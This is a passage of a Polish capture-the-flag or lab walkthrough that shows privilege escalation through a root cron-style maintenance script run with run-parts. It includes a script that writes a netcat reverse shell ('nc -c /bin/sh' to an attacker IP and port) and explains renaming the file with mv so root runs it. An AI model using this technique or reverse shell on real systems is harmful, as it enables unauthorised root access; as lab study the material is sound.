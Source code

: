 ```bash
PREPROD="/opt/maintenance/pre-prod-tasks"


for file in "$PREPROD"/*; do
  if [[ -f $file && "${file##*.}" = "sh" ]]; then
    cp "$file" "$PROD"
  else
    rm -f ${file}
  fi
done

for file in "$PROD"/*; do
  if [[ -f $file && ! -O $file ]]; then
  rm ${file}
  fi
done

/usr/bin/run-parts /opt/maintenance/prod-tasks
```
Z katalogu _/opt/maintenance/pre-prod-tasks_ są przerzucane pliki do katalogu _/opt/maintenance/prod-tasks_, a następnie za pomocą komendy _run-parts_ uruchamiane są wszystkie programy. Wydaje się to proste. Wrzućmy pliki, a skrypt skopiuje z uprawnieniami roota i je wykona. Niestety, skrypt kopiuje tylko pliki z rozszerzeniem _.sh_, a tych plików tutaj nie uruchamia komenda _run-parts_. Będąc w katalogu _/opt/maintenance/prod-tasks_ kopiowałem pliki komendą _cp_, ale plik zmieniał właściciela na _matthieu_, a na tym nam nie zależy. Jednak później spróbowałem komendą mv i... jest sukces. Plik nie zmienił właściciela, był nim _root_, a na roocie można było odpalić kolejną konsolkę. Poniżej jest skrypt który to uruchomi i wrzuci plik _file.sh_ do katalogu _/opt/maintenance/pre-prod-tasks_. Przy okazji odpal u siebie następną konsolkę nasłuchującą. Poniżej skrypt:
{: .text-justify}
```bash
#!/bin/sh
PROD="/opt/maintenance/prod-tasks"
PREPROD="/opt/maintenance/pre-prod-tasks"
FILE=file.sh
echo '#!/bin/sh' > $PREPROD/file.sh
echo 'nc -c /bin/sh 172.16.1.89 44444' >> $PREPROD/file.sh
chmod +x $PREPROD/file.sh
```
Później wejdź do katalogu _/opt/maintenance/prod-tasks_ i czekaj aż tam będzie _file.sh_. Następną operacją jest zmiana nazwy komendą _mv file.sh file_. Po niecałej minucie powinieneś mieć dostęp do konta _root_.
{: .text-justify}